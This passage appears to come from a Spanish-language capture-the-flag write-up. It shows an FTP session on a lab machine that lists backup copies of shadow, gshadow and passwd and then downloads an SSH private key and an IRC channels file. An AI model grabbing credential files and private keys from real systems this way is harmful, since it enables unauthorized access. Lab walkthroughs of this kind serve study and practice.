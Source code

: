 ```bash
-rw-r--r--    1 ftp      ftp        492279 Dec 28  2018 dpkg.status.2.gz
-rw-r--r--    1 ftp      ftp        492279 Dec 28  2018 dpkg.status.3.gz
-rw-r--r--    1 ftp      ftp        489389 Dec 28  2018 dpkg.status.4.gz
-rw-r--r--    1 ftp      ftp        470278 Dec 27  2018 dpkg.status.5.gz
-rw-r--r--    1 ftp      ftp        463754 Dec 23  2018 dpkg.status.6.gz
-rw-------    1 ftp      ftp          1010 Dec 31  2018 group.bak
-rw-------    1 ftp      ftp           840 Dec 31  2018 gshadow.bak
-rw-------    1 ftp      ftp          2485 Dec 31  2018 passwd.bak
-rw-------    1 ftp      ftp          1575 Dec 31  2018 shadow.bak
226 Directory send OK.
```

Descargamos el contenido de los directorio `.ssh` y `.ngircd`.

```bash
ftp> cd .ssh
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||40794|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp          1766 Jan 04  2019 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||46539|)
150 Opening BINARY mode data connection for id_rsa (1766 bytes).
100% |*****************************************************************************************************************************************************************************************************|  1766       26.31 MiB/s    00:00 ETA
226 Transfer complete.
1766 bytes received in 00:00 (4.30 MiB/s)
ftp> cd ..
250 Directory successfully changed.
ftp> cd .ngircd
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||42038|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jan 04  2019 channels
226 Directory send OK.
ftp> get channels
local: channels remote: channels
229 Entering Extended Passive Mode (|||48483|)
150 Opening BINARY mode data connection for channels (33 bytes).
100% |*****************************************************************************************************************************************************************************************************|    33      786.01 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (88.29 KiB/s)
ftp>
```
